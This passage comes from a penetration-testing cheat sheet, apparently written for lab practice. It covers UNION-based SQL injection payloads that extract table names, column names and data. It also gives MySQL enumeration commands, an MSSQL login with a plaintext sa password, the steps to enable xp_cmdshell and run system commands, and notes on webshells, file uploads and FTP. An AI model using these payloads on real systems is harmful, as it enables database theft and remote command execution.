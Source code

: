    - Get the rest of the table names
6. Retrieve columns names
   - ```artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='<TABLE>'```
7. Get data out of the columns
   - ```artist=-1 union select 1,group_concat(<COLUMN>),3 from <TABLE>```

#### MYSQL Commands
```
show grants;
show variables;
show databases;
use <DATABASE>;
show tables;
describe <TABLE>;
SELECT * FROM <TABLE>;
```

### MSSQL
#### Mssql connect
```
mssql-cli -S 10.11.1.31 -U sa -P 'poiuytrewq'
```

#### Enable XP_Cmdshell
```
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE; 
```

#### Execute commands
```
xp_cmdshell 'whoami'
```

#### Webserver shells checklist
- Is the webserver running ISS, PHP? What is it running
  - ISS = .asp, .aspx
  - PHP = .php
  - Java = .jsp

### File upload
#### File upload intruder extensions list
```
/opt/SecLists/Discovery/Web-Content/web-extensions.txt
```

## Services
### FTP
- Check if login is allowed as anonymous:anonymous.
